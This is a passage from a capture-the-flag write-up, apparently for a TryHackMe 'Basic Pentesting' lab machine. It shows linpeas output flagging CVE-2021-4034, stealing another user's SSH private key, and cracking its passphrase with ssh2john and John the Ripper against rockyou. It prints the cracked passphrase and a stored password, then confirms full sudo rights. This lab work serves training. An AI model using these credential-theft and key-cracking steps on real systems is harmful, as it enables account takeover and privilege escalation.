 In kay's directory I find a file "pass.bak" which . However, I can't read the file because I don't have the necessary permissions and I can't run sudo on the machine. Time for privesc...here comes linpeas
~~~
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.16

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

sh: 1197: [[: not found
sh: 1197: rpm: not found
sh: 1197: 0: not found
sh: 1207: [[: not found
~~~

Trying to exploit this vulnerability was futile as I'm running as user Jan who seems to not have the necessary write permissions to create the files neede to escalate. Time to look around... Hehe, I can be able to read kay's private key.I copy the contents. When I try to login using te private_key, turns out it's encrypted and I'm asked for the password.
Time to bruteforce with JohnTheRipper to get the password protecting the private key.

~~~
┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ ssh2john id_rsa > hash

┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ john --wordlist=~/Tools/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:04 DONE (2022-07-23 13:15) 0.2183g/s 18068p/s 18068c/s 18068C/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                        
┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ 
~~~

Bingo, now I can login and read the contents of "pass.bak" and answer the questions.
~~~
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ 
~~~

I can't leave it like that..time for privesc
Using the password, user Kay can run all commands as sudo
~~~
kay@basic2:~$ sudo -l
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
kay@basic2:~$ 
~~~
